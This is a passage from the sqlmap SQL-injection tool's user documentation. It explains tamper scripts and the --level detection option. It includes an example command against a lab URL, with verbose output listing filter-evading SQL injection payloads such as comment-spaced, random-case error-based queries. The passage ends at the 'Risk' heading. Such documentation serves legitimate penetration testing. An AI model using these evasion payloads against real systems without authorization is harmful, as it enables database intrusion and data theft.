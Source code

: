 You can check valid and usable tamper scripts in the `tamper/` directory.

Example against a MySQL target assuming that `>` character, spaces and capital `SELECT` string are banned:

```
$ python sqlmap.py -u "http://192.168.136.131/sqlmap/mysql/get_int.php?id=1" --\
tamper tamper/between.py,tamper/randomcase.py,tamper/space2comment.py -v 3

[hh:mm:03] [DEBUG] cleaning up configuration parameters
[hh:mm:03] [INFO] loading tamper script 'between'
[hh:mm:03] [INFO] loading tamper script 'randomcase'
[hh:mm:03] [INFO] loading tamper script 'space2comment'
[...]
[hh:mm:04] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[hh:mm:04] [PAYLOAD] 1)/**/And/**/1369=7706/**/And/**/(4092=4092
[hh:mm:04] [PAYLOAD] 1)/**/AND/**/9267=9267/**/AND/**/(4057=4057
[hh:mm:04] [PAYLOAD] 1/**/AnD/**/950=7041
[...]
[hh:mm:04] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE or HAVING clause
'
[hh:mm:04] [PAYLOAD] 1/**/anD/**/(SELeCt/**/9921/**/fROm(SELeCt/**/counT(*),CONC
AT(cHar(58,117,113,107,58),(SELeCt/**/(case/**/whEN/**/(9921=9921)/**/THeN/**/1/
**/elsE/**/0/**/ENd)),cHar(58,106,104,104,58),FLOOR(RanD(0)*2))x/**/fROm/**/info
rmation_schema.tables/**/group/**/bY/**/x)a)
[hh:mm:04] [INFO] GET parameter 'id' is 'MySQL >= 5.0 AND error-based - WHERE or
 HAVING clause' injectable 
[...]
```

## Detection

These options can be used to customize the detection phase.

### Level

Option: `--level`

This option requires an argument which specifies the level of tests to perform. There are **five** levels. The default value is **1** where limited number of tests (requests) are performed. Vice versa, level **5** will test verbosely for a much larger number of payloads and boundaries (as in pair of SQL payload prefix and suffix). The payloads used by sqlmap are specified in the textual file `xml/payloads.xml`. Following the instructions on top of the file, if sqlmap misses an injection, you should be able to add your own payload(s) to test for too!

Not only this option affects which payload sqlmap tries, but also which injection points are taken in exam: GET and POST parameters are **always** tested, HTTP Cookie header values are tested from level **2** and HTTP User-Agent/Referer headers' value is tested from level **3**.

All in all, the harder it is to detect a SQL injection, the higher the `--level` must be set.

It is strongly recommended to higher this value before reporting to the mailing list that sqlmap is not able to detect a certain injection point. 

### Risk
